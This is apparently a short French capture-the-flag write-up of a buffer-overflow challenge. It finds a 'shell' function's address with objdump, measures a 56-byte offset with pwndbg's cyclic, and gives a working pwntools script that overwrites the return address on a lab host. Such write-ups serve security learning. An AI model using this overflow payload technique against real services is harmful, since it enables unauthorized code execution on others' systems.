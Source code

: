 # Depassement de tampon

A la vue du nom du challenge, on sait qu'on va avoir affaire à un buffer overflow

Après avoir dump le programme pwn :  objdump -d ./pwn
On voit la fonction shell à l'address :  0x4011a2 (00 00 00 00 00 40 11 a2)

Avec pwndbg: 

J'utilise la fonction cyclic pour avoir une entrée cyclique à fournir au programme pour déterminer l'offset. Grâce à cela, je sais que l'offset est à 56 bytes. 

Ainsi, je construis ce payload "A"*56+"\xa2\x11\x40\x00\x00\x00\x00\x00". 

```python
import pwn

HOST="172.25.106.194"

def exploit():
    conn = pwn.remote(HOST,4000)
    while conn.can_recv(timeout=1):
        conn.sendlineafter("=","A"*56+"\xa2\x11\x40\x00\x00\x00\x00\x00")
        conn.interactive()

if __name__ == "__main__":
    exploit()

```